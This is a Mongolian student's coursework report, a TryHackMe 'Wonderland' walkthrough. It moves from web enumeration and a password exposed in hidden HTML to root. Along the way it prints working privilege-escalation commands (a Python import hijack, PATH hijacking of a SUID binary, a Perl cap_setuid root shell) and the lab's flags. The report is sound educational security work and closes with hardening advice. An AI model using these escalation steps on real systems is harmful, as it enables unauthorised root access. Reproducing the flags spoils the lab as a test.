<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал /F.NSA342/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  Wonderland (MEDIUM)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – WONDERLAND

## УДИРТГАЛ

Энэхүү даалгаврын хүрээнд TryHackMe платформын **Wonderland** виртуал машины аюулгүй байдлын түвшинг шалгав. Вебийн HTML source-д ил үлдсэн нэвтрэх мэдээллээр `alice` хэрэглэгчээр SSH-д нэвтэрч, Python import hijacking (`rabbit`), SUID `teaParty` болон PATH hijacking (`hatter`) аргаар хэрэглэгч шилжиж, Perl-д олгосон `cap_setuid` capability-аар root эрх авсан.

## NMAP — ПОРТ, ҮЙЛЧИЛГЭЭ ИЛРҮҮЛЭХ

```bash
nmap -sC -sV 10.49.157.98
```

**Зорилго:** Зорилтот хостын TCP үйлчилгээ, хувилбарыг тогтоож дараагийн шалгалтын чиглэлийг сонгох. `-sC` — default NSE scripts, `-sV` — үйлчилгээний хувилбар илрүүлэх. **Үр дүн:** `22/tcp` SSH (OpenSSH 7.6p1), `80/tcp` HTTP (Golang net/http сервер) нээлттэй; үлдсэн 998 TCP порт хаалттай гэж харагдсан. HTTP гарчиг `Follow the white rabbit.` — веб замаар цааш судлах сэжүүр болсон.



## GOBUSTER — ҮНДСЭН ВЕБ ЗАМЫГ ИЛРҮҮЛЭХ

```bash
gobuster dir -u http://10.49.157.98/ -w /usr/share/wordlists/dirb/common.txt
```

**Зорилго:** Вебийн боломжит директоруудыг brute-force directory enumeration аргаар шалгах. `dir` — директорын горим, `-u` — URL, `-w` — wordlist. **Үр дүн:** `/img/`, `/r/`, `/index.html` (HTTP 301 redirect) илэрсэн. Өмнөхөөс `/r/` нь сонирхолтой зам болж өгсөн.



## CURL АШИГЛАН ХУУДАСНЫ HTML SOURCE ШАЛГАХ

```bash
curl -s http://10.49.157.98/
curl -s http://10.49.157.98/r/
```

**Зорилго:** Нүүр хуудас болон `/r/`-ийн HTML тэмдэглэл, дараагийн замын сэжүүрийг унших. `-s` — progress/error-ийн зарим мэдээллийг хааж зөвхөн агуулгыг харахад тохиромжтой quiet горим. Үндсэн хуудсанд `Follow the White Rabbit`, `/r/`-д `Keep Going` гэж гарч, үргэлжлүүлэн зам хайх чиглэл өгсөн.



## ДАРААГИЙН ЗАМЫГ ТООЛОХ

```bash
gobuster dir -u http://10.49.157.98/r/ -w /usr/share/wordlists/dirb/common.txt
```

**Үр дүн:** `/r/a/` зам илэрсэн. Ийнхүү үсгээр гүнзгийрэх замыг мөрдөж дараагийн боломжит хуудсуудыг шалгасан.



## НУУЦ МЭДЭЭЛЭЛ HTML-Д ИЛ ГАРСАН БАЙДАЛ

```bash
curl -s http://10.49.157.98/r/a/b/b/i/t/
```

**Үр дүн:** `Enter wonderland` гэсэн хуудасны HTML дотор `alice:HowDothTheLittleCrocodileImproveHisShiningTail` гэсэн мөр (хуудасны `style="display: none;"` нуугдсан paragraph) байгааг илрүүлсэн. Энэ нь HTML source дотор credential-ийг ил байршуулсан **sensitive information disclosure** эмзэг байдлын бодит жишээ юм. Нууц үгийг зөвхөн зөвшөөрөгдсөн TryHackMe лабораторид ашигласан.



## SSH INITIAL ACCESS — ALICE

```bash
ssh alice@10.49.157.98
whoami
id
```

**Зорилго:** Вебийн эх кодоос олсон credential үнэн эсэхийг лабораторийн SSH үйлчилгээ дээр шалгах. **Үр дүн:** `alice` хэрэглэгчээр SSH session нээгдсэн; `uid=1001(alice) gid=1001(alice)` гэж буцсан.



## ДОТООД ЭРХ БА ФАЙЛЫН БАЙРШЛЫН ШИНЖИЛГЭЭ

```bash
pwd
ls -la
find /home -name user.txt 2>/dev/null
ls -l /home/alice/root.txt /root/user.txt
sudo -l
ls -la /home
find / -type f -perm -4000 2>/dev/null
```

**Зорилго:** Одоогийн хэрэглэгчийн эрх, хавтас, flag файлын байрлал, elevated execution боломжуудыг тодорхойлох. **Үр дүн:** `/home/alice/root.txt` болон `/root/user.txt` гэсэн ердийнхөөс солигдсон flag байрлал илэрсэн. `sudo -l`-ийн үр дүнгээр `alice` хэрэглэгч `/home/alice/walrus_and_the_carpenter.py` скриптийг `rabbit` хэрэглэгчийн эрхээр Python 3.6-аар ажиллуулах эрхтэй (`(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`). Мөн `/home`-д `alice`, `rabbit`, `hatter`, `tryhackme` хавтас байгааг тогтоосон.



## PYTHON IMPORT HIJACKING — ALICE-ААС RABBIT ЭРХ АВАХ

Зурагт харагдаж буй туршилтаар скрипт ачаалж болох Python модуль нэртэй `random.py` файлыг `/home/alice` дотор үүсгэж, түүгээр `/bin/bash` ажиллуулах payload оруулсан. Үүний дараа `sudo`-гийн зөвшөөрөгдсөн Python скриптийг `rabbit` хэрэглэгчээр ажиллуулснаар халдагчийн модулийг import хийж shell үүсгэсэн.

```bash
cd /home/alice
printf 'import os\nos.system("/bin/bash")\n' > random.py
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
whoami
id
ls -l /home/rabbit
```

**Эмзэг байдал:** `sudo`-гоор өндөр эрхээр ажиллуулсан Python скрипт `random` модуль импортлох үед хэрэглэгчийн бичих эрхтэй директороос хуурамч `random.py` ачаалж болох import path/module shadowing. **Үр дүн:** `uid=1002(rabbit)` эрхтэй shell нээгдсэн; `/home/rabbit/teaParty` нь `-rwsr-sr-x` SUID/SGID permission-той байв. Зургийн хэмжээнд Python скриптийн эх кодыг бүхэлд нь шалгасан нотолгоо байхгүй тул module import-ийн яг мөрийг зурагт харсан гэж дүгнээгүй.



## SUID TEAPARTY БОЛОН PATH HIJACKING — RABBIT-ААС HATTER

Эхлээд `/home/rabbit/teaParty` бинарийг ажиллуулсан. Программ цаг харуулах үйлдэл хийсний дараа алдаа (`Segmentation fault`) үзүүлсэн боловч үр дүн нь PATH hijacking-ын дараах туршилтыг зогсоогоогүй. Дараа нь `date` нэртэй хуурамч executable-ийг `/tmp`-д байршуулж, `PATH` хувьсагчийн эхэнд `/tmp`-г нэмсэн.

```bash
cd /home/rabbit
./teaParty
printf '#!/bin/sh\n/bin/bash\n' > /tmp/date
chmod +x /tmp/date
export PATH=/tmp:$PATH
/home/rabbit/teaParty
whoami
id
getcap -r / 2>/dev/null
```

**Эмзэг байдал:** SUID/SGID binary нь `date` гэх мэт командыг абсолют замгүй дуудах үед хэрэглэгчийн хянаж буй `PATH`-аас хуурамч executable ажиллуулах эрсдэл. **Үр дүн:** shell `hatter` болсон; `uid=1003(hatter)` гэж харагдсан, мөн `getcap`-аар `/usr/bin/perl` болон `/usr/bin/perl5.26.1` файлуудад `cap_setuid+ep` байгааг илрүүлсэн.





## PERL CAPABILITY ШАЛГАХ БА HATTER ХЭРЭГЛЭГЧИЙН БАТАЛГААЖУУЛАЛТ

```bash
ls -la /home/hatter
namei -l /usr/bin/perl5.26.1
getcap /usr/bin/perl /usr/bin/perl5.26.1
/usr/bin/perl5.26.1 -e 'print "Perl works\\n"'
cat /home/hatter/password.txt
su - hatter
whoami
id
/usr/bin/perl -e 'print "Perl works\\n"'
```

**Зорилго:** Эцсийн privilege escalation хийхээс өмнө Perl бинарийн эрх болон capability, `hatter` хэрэглэгчээр session авах боломжийг шалгах. **Үр дүн:** `/usr/bin/perl5.26.1` шууд ажиллуулахад `Permission denied` болсон; `/usr/bin/perl` нь `cap_setuid+ep` capability-тай хэвээр байгааг шалгасан. `/home/hatter/password.txt` файлаас password уншаад `su - hatter` командыг ашиглан жинхэнэ `hatter` сесс нээсэн. `whoami` нь `hatter`, `id` нь `uid=1003(hatter)` гэж баталсан. Нууц үгийн утгыг энд дахин нийтлээгүй.



## PERL CAP_SETUID-ААР ROOT SHELL АВАХ, FLAG УНШИХ

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); setuid(0) or die $!; exec "/bin/bash";'
whoami
id
cat /root/user.txt
cat /home/alice/root.txt
```

**Эмзэг байдал:** Стандарт Perl interpreter-д `cap_setuid+ep` Linux file capability олгосноор, тухайн executable ажиллах боломжтой хэрэглэгч UID 0 болгон сольж root shell үүсгэх нөхцөл бүрдсэн. Энэ нь ердийн interpreter-д байх ёсгүй өндөр эрх юм.

**Баталгаажсан үр дүн:** `whoami` → `root`; `id` → `uid=0(root) gid=1003(hatter) groups=1003(hatter)`; хоёр flag файлыг амжилттай уншсан. Файлын нэршил нь энэ лабораторид энгийн байршлаасаа солигдсон.

```text
/root/user.txt: thm{"Curiouser and curiouser!"}
/home/alice/root.txt: thm{Twinkle, twinkle, little bat! How I wonder what you're at!}
```



## WONDERLAND — ДҮГНЭЛТ БА ХАМГААЛАЛТЫН ЗӨВЛӨМЖ

**Дүгнэлт:** HTTP source-д байсан нууц мэдээллээр анхны SSH access авч, `sudo`-гийн Python import замын сул тал, SUID binary дахь PATH hijacking, Perl-ийн буруу `cap_setuid` capability гэсэн гурван тусдаа privilege boundary-ийг давж root эрх олж авсан. Энд нэг техникийн алдаа бус, мэдээлэл алдагдах ба эрхийн буруу тохиргоонуудын нийлбэр нөлөөлсөн.

**Хамгаалалтын зөвлөмж:**

1. **Credential:** HTML, JavaScript, Git болон public web root-д password, token хадгалахгүй; ил болсон credential-ийг даруй солих, SSH public-key authentication ба нэвтрэлтийн хязгаарлалт хэрэгжүүлэх.
2. **Python/sudo:** `sudoers`-ийн зөвшөөрөгдсөн скрипт болон импортын сангуудыг хамгаалсан директороос ачаалах; скрипт, module search path, cwd, environment variable-ийг шалгах; бичих эрхтэй директорыг эрх өндөртэй process-ийн import path-аас гаргах.
3. **SUID:** Шаардлагагүй SUID/SGID битийг хасах; өндөр эрхтэй binary-аас гаднын командыг зайлшгүй ажиллуулах бол absolute path, цэвэрлэсэн `PATH`, drop privileges ашиглах.
4. **Linux capabilities:** Ерөнхий зориулалтын interpreter-д `cap_setuid`, `cap_setgid` capability өгөхгүй; `getcap -r /` шалгалтыг тогтмол хийж, шаардлагагүй capability-г арилгах.
5. **Файл, мониторинг:** `/home` дотор password plaintext-аар хадгалахгүй; sudo, SSH, su болон elevated execution-ийн audit/log monitoring тохируулах.
